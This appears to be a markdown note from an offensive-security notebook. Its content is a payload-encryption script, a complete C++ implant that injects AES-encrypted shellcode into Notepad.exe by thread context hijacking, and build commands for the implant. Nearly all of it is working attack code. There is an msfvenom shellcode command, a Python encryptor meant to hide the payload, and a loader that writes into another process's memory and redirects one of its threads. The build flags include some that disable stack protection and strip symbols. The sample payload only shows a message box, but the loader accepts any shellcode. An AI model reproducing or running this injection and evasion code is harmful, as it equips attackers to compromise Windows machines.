

![[jok.jpg|697]]



> [!warning]- MSF
>```bash
>msfvenom -p windows/x64/messagebox --platform windows -a x64 TITLE=CNA TEXT="Wellcome To The ATTvDEF" -f raw -o msg
>```

### AES Encryption

> [!info]- AES Encryption
>```python
>import sys
>import os
>import hashlib
>import ctypes
>
># -----------------------------
># PKCS7 Padding
># -----------------------------
>def pad(data, block_size=16):
>    pad_len = block_size - (len(data) % block_size)
>    return data + bytes([pad_len] * pad_len)
>
>def xor_bytes(a, b):
>    return bytes(x ^ y for x, y in zip(a, b))
>
># -----------------------------
># Load Lib libcrypto.so
># -----------------------------
>libcrypto = ctypes.CDLL("libcrypto.so")
>
>AES_ENCRYPT = 1
>
>class AES_KEY(ctypes.Structure):
>    _fields_ = [("rd_key", ctypes.c_uint * 60),
>                ("rounds", ctypes.c_int)]
>
>AES_set_encrypt_key = libcrypto.AES_set_encrypt_key
>AES_set_encrypt_key.argtypes = [ctypes.c_char_p, ctypes.c_int,
>                                ctypes.POINTER(AES_KEY)]
>AES_set_encrypt_key.restype = ctypes.c_int
>
>AES_encrypt = libcrypto.AES_encrypt
>AES_encrypt.argtypes = [ctypes.c_char_p, ctypes.c_char_p,
>                        ctypes.POINTER(AES_KEY)]
>AES_encrypt.restype = None
>
>def aes_encrypt_block(block: bytes, key: bytes) -> bytes:
>    aes_key = AES_KEY()
>    AES_set_encrypt_key(key, 256, ctypes.byref(aes_key))
>    out = ctypes.create_string_buffer(16)
>    AES_encrypt(block, out, ctypes.byref(aes_key))
>    return out.raw
>
>def aes_cbc_encrypt(data: bytes, key: bytes, iv: bytes) -> bytes:
>    prev = iv
>    blocks = []
>    for i in range(0, len(data), 16):
>        block = xor_bytes(data[i:i+16], prev)
>        enc = aes_encrypt_block(block, key)
>        blocks.append(enc)
>        prev = enc
>    return b"".join(blocks)
>
># -----------------------------
># main
># -----------------------------
>if len(sys.argv) < 2:
>    print(f"Usage: {sys.argv[0]} <payload file>")
>    sys.exit(1)
>
>plaintext = open(sys.argv[1], "rb").read()
>
>KEY = os.urandom(16)
>AES_KEY_DERIVED = hashlib.sha256(KEY).digest()
>IV = b"\x00" * 16
>
>ciphertext = aes_cbc_encrypt(pad(plaintext), AES_KEY_DERIVED, IV)
>
>print("AESkey[] = { 0x" + ", 0x".join(hex(x)[2:] for x in KEY) + " };")
>print("payload[] = { 0x" + ", 0x".join(hex(x)[2:] for x in ciphertext) + " };")
>```

![[Pasted image 20260312131503.png]]

> [!danger] Thread Context Hijack
>```cpp
>#include <windows.h>
>#include <iostream>
>#include <string>
>#include <tlhelp32.h>
>#include <wincrypt.h>
>#pragma comment (lib, "crypt32.lib")
>#pragma comment (lib, "advapi32")
>
>typedef struct _CLIENT_ID {
>	HANDLE UniqueProcess;
>	HANDLE UniqueThread;
>} CLIENT_ID, *PCLIENT_ID;
>
>typedef LPVOID (WINAPI * VirtualAlloc_t)(
>	LPVOID lpAddress,
>	SIZE_T dwSize,
>	DWORD  flAllocationType,
>	DWORD  flProtect);
>	
>typedef VOID (WINAPI * RtlMoveMemory_t)(
>	VOID UNALIGNED *Destination, 
>	const VOID UNALIGNED *Source, 
>	SIZE_T Length);
>
>typedef FARPROC (WINAPI * RtlCreateUserThread_t)(
>	IN HANDLE ProcessHandle,
>	IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
>	IN BOOLEAN CreateSuspended,
>	IN ULONG StackZeroBits,
>	IN OUT PULONG StackReserved,
>	IN OUT PULONG StackCommit,
>	IN PVOID StartAddress,
>	IN PVOID StartParameter OPTIONAL,
>	OUT PHANDLE ThreadHandle,
>	OUT PCLIENT_ID ClientId);
>
>typedef NTSTATUS (NTAPI * NtCreateThreadEx_t)(
>	OUT PHANDLE hThread,
>	IN ACCESS_MASK DesiredAccess,
>	IN PVOID ObjectAttributes,
>	IN HANDLE ProcessHandle,
>	IN PVOID lpStartAddress,
>	IN PVOID lpParameter,
>	IN ULONG Flags,
>	IN SIZE_T StackZeroBits,
>	IN SIZE_T SizeOfStackCommit,
>	IN SIZE_T SizeOfStackReserve,
>	OUT PVOID lpBytesBuffer);
>
>// MessageBox shellcode - 64-bit
 > BYTE payload[] = {
 >   0x54, 0xB3, 0xF8, 0xA7, 0x53, 0x99, 0x48, 0x35, 0x2D, 0x1A, 0xBC, 0xD5, 0xAA, 0x95, 0xF1, 0xF3,
 >   0xC5, 0x80, 0x03, 0xA7, 0xE1, 0x77, 0x23, 0xB5, 0x88, 0x7A, 0x18, 0x65, 0xFF, 0x20, 0xB7, 0xF2,
 >   0xE8, 0xC7, 0x9C, 0x83, 0x92, 0x2E, 0x6E, 0xDF, 0xC6, 0x00, 0xAC, 0x19, 0xAC, 0x0D, 0xA2, 0xEC,
 >   0x57, 0xB9, 0xF2, 0x03, 0xF2, 0x7A, 0x2F, 0x8A, 0x18, 0xFF, 0x99, 0x78, 0x80, 0x17, 0xF3, 0x1C,
 >   0xC6, 0xE2, 0x9F, 0x71, 0xFD, 0x44, 0x3F, 0x99, 0xD9, 0xEE, 0xA6, 0xE9, 0x31, 0x95, 0x9C, 0x4F,
 >   0xFB, 0x8A, 0x2A, 0x14, 0xEB, 0x07, 0x7F, 0xD1, 0xAE, 0x73, 0x56, 0x31, 0x38, 0x9D, 0x0A, 0xD7,
 >   0x8C, 0x64, 0x58, 0xD1, 0x6A, 0x0B, 0xFE, 0x1E, 0x05, 0xA6, 0x31, 0xD9, 0x20, 0x46, 0xF5, 0x8A,
 >   0xD4, 0x87, 0x4E, 0x9D, 0xAC, 0x3E, 0xC2, 0x47, 0xD3, 0xA1, 0xC1, 0x38, 0x4F, 0xC2, 0xCF, 0xD2,
 >   0x3D, 0x7C, 0xF0, 0xF1, 0xB5, 0x88, 0x99, 0xCC, 0xB6, 0x9F, 0xB0, 0x23, 0x56, 0x2B, 0xCC, 0xC2,
 >   0xFE, 0xDC, 0x80, 0xE4, 0x48, 0xC4, 0x81, 0x9E, 0xD8, 0x3A, 0xD7, 0xCC, 0xCE, 0x3C, 0x18, 0x1B,
 >   0xC4, 0xE6, 0x9E, 0xBF, 0x02, 0xC7, 0xDB, 0x1E, 0x71, 0x74, 0xBF, 0xCF, 0x80, 0x26, 0x52, 0x22,
 >   0xD4, 0x58, 0xF0, 0xE0, 0xEC, 0xE5, 0x57, 0x3A, 0x8C, 0xA8, 0x5B, 0x18, 0x6A, 0xBD, 0xE6, 0x49,
 >   0x92, 0xB4, 0x1F, 0x9F, 0x9C, 0x79, 0xFB, 0xF3, 0xF0, 0x3A, 0x51, 0xC6, 0x6E, 0xB9, 0x0D, 0xDD,
 >   0x7F, 0x35, 0xA1, 0xDB, 0xBC, 0x49, 0x1B, 0x0C, 0x43, 0xA0, 0xA3, 0x20, 0x97, 0x2E, 0x41, 0x21,
 >   0xBB, 0x7B, 0x8C, 0xEF, 0x78, 0x17, 0x06, 0x98, 0x24, 0xB8, 0x96, 0x3F, 0xF3, 0x4F, 0xB3, 0x29,
 >   0xE6, 0x79, 0x5D, 0x7C, 0x63, 0x5A, 0xC2, 0x92, 0x2F, 0xC4, 0xE3, 0x68, 0x4F, 0x9D, 0x47, 0x2D,
 >   0x03, 0xB0, 0x48, 0xE9, 0x23, 0xEF, 0x46, 0x79, 0xBB, 0xDF, 0xA6, 0xE3, 0xFB, 0x19, 0xC4, 0x9E,
 >   0xA3, 0x4F, 0x5A, 0xD8, 0x25, 0xCF, 0x1A, 0x00, 0x00, 0x5A, 0x78, 0x4E, 0x11, 0xF8, 0x05, 0x00,
 >   0xCB, 0x98, 0xD5, 0x3E, 0xC9, 0x35, 0x5E, 0xCD, 0x83, 0xAD, 0x1A, 0x35, 0x8D, 0xBD, 0x6D, 0x50,
 >   0xBC, 0x63, 0xBC, 0xD9, 0x62, 0xF9, 0xB6, 0x1F, 0x94, 0xAC, 0x4C, 0x65, 0xD0, 0x8F, 0x23, 0x1E
>};
>
>BYTE key[] = { 0x31, 0x75, 0xc2, 0x38, 0xc0, 0x7d, 0xa5, 0x27, 0xbe, 0x65, 0xc0, 0x69, 0x54, 0xe7, 0x8f, 0xf5 };
>size_t payloadsz = sizeof(payload);
>
>int AESDecrypt(BYTE * payload,size_t payloadsz,BYTE *key, size_t keysz) {
>	HCRYPTPROV hProv;
>	HCRYPTHASH hHash;
>	HCRYPTKEY hKey;
>
>	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT))
>			return -1;
>
>	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash))
>			return -1;
>	
>	if (!CryptHashData(hHash,key, (DWORD) keysz, 0))
>			return -1;              
>	
>	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey))
>			return -1;
>	
>	if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, (BYTE *) payload, (DWORD *) &payloadsz))
>			return -1;
>	
>	CryptDestroyKey(hKey);
>	CryptDestroyHash(hHash);
>	CryptReleaseContext(hProv, 0);
>	return 0;
>}
>
>DWORD EnumProc(const std::wstring& procName) {
> DWORD pid = 0;
> HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
>
> if (hSnapshot == INVALID_HANDLE_VALUE) {
>    std::wcerr << L"Error: Could not create process snapshot. Error Code: " << GetLastError() << std::endl;
>    return 0; 
>}
>
>PROCESSENTRY32W pe32 = { 0 };
>pe32.dwSize = sizeof(PROCESSENTRY32W);
>
>if (!Process32FirstW(hSnapshot, &pe32)) {
>    std::wcerr << L"Error: Process32First failed. Error Code: " << GetLastError() << std::endl;
>    CloseHandle(hSnapshot);
>    return 0;
>}
>
>do {
>    if (lstrcmpiW(pe32.szExeFile, procName.c_str()) == 0) {
>        pid = pe32.th32ProcessID;
>        break;
>     }
> } while (Process32NextW(hSnapshot, &pe32));
>
> CloseHandle(hSnapshot);
> return pid;
>}
>
>HANDLE EnumThread(const DWORD &PID){
>    HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
>    if (Snap == INVALID_HANDLE_VALUE)
>        return NULL;
>
>    THREADENTRY32 thEntry{};
>    thEntry.dwSize = sizeof(thEntry);
>
>    if(!Thread32First(Snap,&thEntry)){
>        CloseHandle(Snap);
>        return NULL;
>    }
>
>    do{
>        if(thEntry.th32OwnerProcessID == PID){
>            HANDLE hThread = OpenThread(THREAD_ALL_ACCESS,FALSE,thEntry.th32ThreadID);
>            if(hThread){
> 		      CloseHandle(Snap);
> 		       return hThread;
>            }
>        }
>    }while (Thread32Next(Snap,&thEntry));
>
>    CloseHandle(Snap);
>    return NULL;
>}
>
>int main(void) {
>
>	const DWORD PID{EnumProc(L"Notepad.exe")};
>	if (!PID){
>		std::cout << "[-] Process Not Found\n";
>		return 1;
>	}
>
>	std::cout << "[+] Process PID : " << PID << "\n";
>	HANDLE hProc{OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
>						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
>						FALSE, PID)};
>	if (!hProc) {
>		std::cout << "[-] Faild To OpenProcess\n";
>		return 1;
>	}
>
>	// Decrypt payload
>	AESDecrypt(payload, payloadsz,key, sizeof(key));
>	
>	// perform payload injection
>	LPVOID RemoteExecution{VirtualAllocEx(hProc, NULL, payloadsz, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READ)};
>	if(!RemoteExecution){
>		CloseHandle(hProc);
>		return 1;
>	}
>	if(!WriteProcessMemory(hProc, RemoteExecution,payload,payloadsz,nullptr)){
>		CloseHandle(hProc);
>		VirtualFreeEx(hProc,RemoteExecution,0,MEM_RELEASE);
>		return 1;
>	}
>
>	HANDLE Hthread{EnumThread(PID)};
>	if(!Hthread){
>		CloseHandle(hProc);
>		std::cout << "[-] Faild To Get handle of Thread\n";
>		return 1;
>	}
>
>	SuspendThread(Hthread);
>
>	CONTEXT CTX{};
>	CTX.ContextFlags = CONTEXT_FULL;
>	GetThreadContext(Hthread,&CTX);
>
>#ifdef _M_IX86 
>	CTX.Eip = (DWORD_PTR) RemoteExecution;
>#else
>	CTX.Rip = (DWORD_PTR) RemoteExecution;
>#endif
>
>	SetThreadContext(Hthread,&CTX);
>	ResumeThread(Hthread);
>	CloseHandle(Hthread);
>	CloseHandle(hProc);
>
>	return 0;
>}
>```


## Compile Time

> [!hint]+ Windows Build (cl.exe)
> ```batch
> @ECHO OFF
> cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
> ```

> [!hint]+ MinGW Compiler With Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Without Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -mwindows -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler For Debug
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -g -O0 -Wall -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Strong Security
> ```bash
> x86_64-w64-mingw32-g++ implantc.cpp -O2 -D_FORTIFY_SOURCE=2 -fstack-protector-strong -fstack-clash-protection -Wl,--dynamicbase -Wl,--nxcompat -Wl,--high-entropy-va -Wall -Wextra -o secure.exe
> ```

> [!hint]+ MinGW Compiler Hard Reverse
> ```bash
> x86_64-w64-mingw32-g++ main.cpp -O3 -flto -fstack-protector-strong -fstack-clash-protection -fPIE -pie -s -o hard.exe
> x86_64-w64-mingw32-strip --strip-all hard.exe
> ```
